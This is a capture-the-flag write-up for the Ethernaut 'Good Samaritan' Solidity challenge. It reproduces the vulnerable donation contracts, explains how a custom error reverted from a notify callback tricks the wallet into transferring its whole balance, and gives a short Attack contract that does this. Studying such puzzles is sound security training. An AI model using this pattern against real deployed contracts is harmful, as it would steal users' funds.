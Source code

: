## Challenge
~~~
This instance represents a Good Samaritan that is wealthy and ready to donate some coins to anyone requesting it.

Would you be able to drain all the balance from his Wallet?

Things that might help:

- [Solidity Custom Errors](https://blog.soliditylang.org/2021/04/21/custom-errors/)
~~~
## Contract
```
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

import "openzeppelin-contracts-08/utils/Address.sol";

contract GoodSamaritan {
    Wallet public wallet;
    Coin public coin;

    constructor() {
        wallet = new Wallet();
        coin = new Coin(address(wallet));

        wallet.setCoin(coin);
    }

    function requestDonation() external returns (bool enoughBalance) {
        // donate 10 coins to requester
        try wallet.donate10(msg.sender) {
            return true;
        } catch (bytes memory err) {
            if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
                // send the coins left
                wallet.transferRemainder(msg.sender);
                return false;
            }
        }
    }
}

contract Coin {
    using Address for address;

    mapping(address => uint256) public balances;

    error InsufficientBalance(uint256 current, uint256 required);

    constructor(address wallet_) {
        // one million coins for Good Samaritan initially
        balances[wallet_] = 10 ** 6;
    }

    function transfer(address dest_, uint256 amount_) external {
        uint256 currentBalance = balances[msg.sender];

        // transfer only occurs if balance is enough
        if (amount_ <= currentBalance) {
            balances[msg.sender] -= amount_;
            balances[dest_] += amount_;

            if (dest_.isContract()) {
                // notify contract
                INotifyable(dest_).notify(amount_);
            }
        } else {
            revert InsufficientBalance(currentBalance, amount_);
        }
    }
}

contract Wallet {
    // The owner of the wallet instance
    address public owner;

    Coin public coin;

    error OnlyOwner();
    error NotEnoughBalance();

    modifier onlyOwner() {
        if (msg.sender != owner) {
            revert OnlyOwner();
        }
        _;
    }

    constructor() {
        owner = msg.sender;
    }

    function donate10(address dest_) external onlyOwner {
        // check balance left
        if (coin.balances(address(this)) < 10) {
            revert NotEnoughBalance();
        } else {
            // donate 10 coins
            coin.transfer(dest_, 10);
        }
    }

    function transferRemainder(address dest_) external onlyOwner {
        // transfer balance left
        coin.transfer(dest_, coin.balances(address(this)));
    }

    function setCoin(Coin coin_) external onlyOwner {
        coin = coin_;
    }
}

interface INotifyable {
    function notify(uint256 amount) external;
}
```
`

## Solution

GoodSamaritan contract have
- Wallet
- Coin
- requestDonation() - tries to send 10 coins and return true else transfer remained and return false

Coin contract have
- balances mapping
- balance for wallet is set to 10^6 initially
- transfer function accepting destination address and amount
	- gets current balance of msg.sender
	- check if amount < current balance

Wallet has option to send 10 coint or all left

We need to somehow trigger the transferRemainder() - we need `wallet.donate10(msg.sender)` to return an `NotEnoughBalance` error
```
function donate10(address dest_) external onlyOwner {
        // check balance left
        if (coin.balances(address(this)) < 10) { // check cannot be bypassed
            revert NotEnoughBalance();
        } else {
            // donate 10 coins
            coin.transfer(dest_, 10); // we have to see if transfer can return the wanted error
        }
    }
```

In the `transfer()` function we have a check for the current amount transfered, if it lower than the current balance, we change the balances for sender and destination and then if the destination is a contract call notify function on it. Notify can be whatever function we want and it can even throw the `NotEnoughBalance`.

```
contract Attack {
    error NotEnoughBalance();
    GoodSamaritan gs = GoodSamaritan(0xA8A4412fECDC6539699a543cfB533Be0FE9304Eb);

   function attck() external {
        gs.requestDonation();
   }
   
    function notify(uint256 amount) external pure {
        if (amount == 10) {
            revert NotEnoughBalance();
        }
    }
}
```
## Key takeaways and useful resources



